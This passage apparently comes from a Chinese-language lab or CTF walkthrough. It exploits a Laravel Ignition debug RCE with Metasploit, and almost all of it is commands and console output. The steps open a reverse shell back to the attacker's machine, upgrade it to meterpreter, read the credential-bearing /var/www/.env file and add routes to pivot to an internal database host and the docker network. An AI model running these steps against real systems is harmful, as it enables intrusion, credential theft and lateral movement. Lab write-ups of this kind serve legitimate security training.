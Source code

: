 ```shell

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 136.16 seconds
```
扫描完成后，开始初步攻击
```shell
# msf开始攻击
use multi/php/ignition_laravel_debug_rce
set rhosts 10.10.214.114
set HttpClientTimeout 20
# 怀疑是网络问题，建议使用远程的Kali攻击机来操作
run
[*] Started reverse TCP handler on 10.10.79.212:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking component version to 10.10.214.114:80
[+] The target appears to be vulnerable.
[*] Command shell session 1 opened (10.10.79.212:4444 -> 10.10.214.114:60934) at 2022-12-18 08:35:52 +0000

whoami
www-data
```
然后对会话进行upgrade
```shell
sessions -u -1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [-1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.79.212:4433 
[*] Sending stage (1017704 bytes) to 10.10.214.114
[*] Meterpreter session 2 opened (10.10.79.212:4433 -> 10.10.214.114:53064) at 2022-12-18 08:37:08 +0000
[*] Command stager progress: 100.00% (773/773 bytes)
```
而后进入会话，对`/var/www/.env`进行信息搜集
```shell
msf6 > sessions -i 2
[*] Starting interaction with 2...

meterpreter > cat /var/www/.env 
...
```
继续，横向穿透
```shell
meterpreter > resolve webservice_database

Host resolutions
================

    Hostname             IP Address
    --------             ----------
    webservice_database  172.28.101.51
background

# 设置路由
msf6 > route add 172.28.101.51/32 -1
[*] Route added

# 设置docker网络的路由
route add 172.17.0.1/32 -1

# 查看当前的路由设置
msf6 > route print
```